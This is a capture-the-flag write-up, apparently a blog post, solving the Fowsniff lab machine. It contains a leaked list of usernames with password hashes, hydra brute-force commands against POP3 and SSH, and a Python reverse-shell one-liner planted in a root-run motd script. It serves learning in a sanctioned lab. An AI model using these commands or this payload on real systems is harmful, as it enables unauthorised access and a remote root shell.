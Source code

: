 ```yaml
---
layout: post
permalink: /posts/thm/fowsniff-ctf
title: "Fowsniff CTF"
---
```


Scan the target machine with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/fowsniff-ctf/nmap.png)

There are 4 open ports. Let's go and visit the web server.

![web-server](/assets/images/thm/fowsniff-ctf/web-server.png)

It looks that the company has been hacked. Searching for the Twitter account `@fowsniffcorp` leads us to a profile where we can find a link to Pastebin with their leaked password.

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

We can use `https://crackstation.net/` to crack all the passwords. Once you have already cracked the passwords (I wasn't able to crack one of them) create two files one for `users` populated with the user names and one for `passwords` populated with the passwords. Now we can try to brute force the POP3 service using hydra.

```
hydra -L users -P passwords pop3://<IP>
```

![hydra](/assets/images/thm/fowsniff-ctf/hydra.png)

We have successfully bruted the POP3 service. Now login.

```
nc <IP> 110
```

or

```
telnet <IP> 110
```

![pop3](/assets/images/thm/fowsniff-ctf/pop3.png)

Reading through the emails you will find a SSH password. Create a new file with the recipients of the email and we are going to use hydra again to brute force SSH service.

```
hydra -L sshusers -p S1ck3nBluff+secureshell ssh://<IP>
```

![hydra2](/assets/images/thm/fowsniff-ctf/hydra2.png)

Now we can connect to SSH

```
ssh <USER_NAME>@<IP>
```

![ssh](/assets/images/thm/fowsniff-ctf/ssh.png)

Now we need to find out what group our user belongs to and search for interesting files that can be run by that group.

```
id
find / -type f -group users 2>/dev/null
```

![find](/assets/images/thm/fowsniff-ctf/find.png)

Let's look the content of the script

![script](/assets/images/thm/fowsniff-ctf/script.png)

It looks the same as the banner we saw when we SSH which means this file is run as root when someone SSH. We can check that as we read `/etc/update-motd.d/00-header`

![cat](/assets/images/thm/fowsniff-ctf/cat.png)

Well, let's add the python reverse shell script into `/opt/cube/cube.sh`

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Once cube.sh is changed start listener on our machine and SSH again. You should receive root shell.